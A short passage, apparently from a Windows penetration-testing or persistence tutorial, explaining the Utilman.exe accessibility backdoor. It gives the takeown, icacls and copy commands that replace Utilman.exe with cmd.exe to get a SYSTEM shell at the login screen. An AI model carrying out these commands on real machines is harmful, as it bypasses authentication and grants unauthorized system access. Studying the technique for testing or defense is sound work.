 When we click the ease of access button on the login screen, it executes C:\Windows\System32\Utilman.exe with SYSTEM privileges. If we replace it with a copy of cmd.exe, we can bypass the login screen again.
 
	takeown /f C:\Windows\System32\Utilman.exe
	icacls C:\Windows\System32\Utilman.exe /grant Administrator:F
	copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe